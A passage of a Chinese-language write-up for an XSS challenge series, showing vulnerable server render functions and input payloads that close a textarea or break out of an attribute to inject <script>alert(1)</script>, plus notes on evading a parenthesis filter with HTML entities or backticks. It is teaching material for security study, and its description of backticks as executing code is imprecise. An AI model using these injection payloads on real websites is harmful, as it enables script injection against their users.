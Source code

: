 Input Code

```html
</textarea><script>alert(1)</script>
```

HTML

```html
<textarea></textarea><script>alert(1)</script>
  </textarea>
```

## 0x02

引号和标签闭合

Server Code

```js
function render(input) {
  return '<input type="name" value="' + input + '">';
}
```

Input Code

```js
"><script>alert(1)</script>
```

HTML

```html
<input type="name" value="" />
<script>
  alert(1);
</script>
">
```

## 0x03

正则替换了小括号，用实体字符绕过或使用反引号绕过。

实体字符绕过是 HTML 的一个知识点：HTML 会将实体字符解析成对应的符号，因此在 HTML 的标签中可以通过实体字符来绕过 JS 中的过滤，但是 JS 代码中无法解析 HTML 编码，所以无法使用

反引号绕过是 JS 的一个知识点：JS 会将反引号中的内容作为可执行代码（很多脚本语言都有这个特性）

`<script>`标签

Server Code

```js
function render(input) {
  const stripBracketsRe = /[()]/g;
  input = input.replace(stripBracketsRe, "");
  return input;
}
```
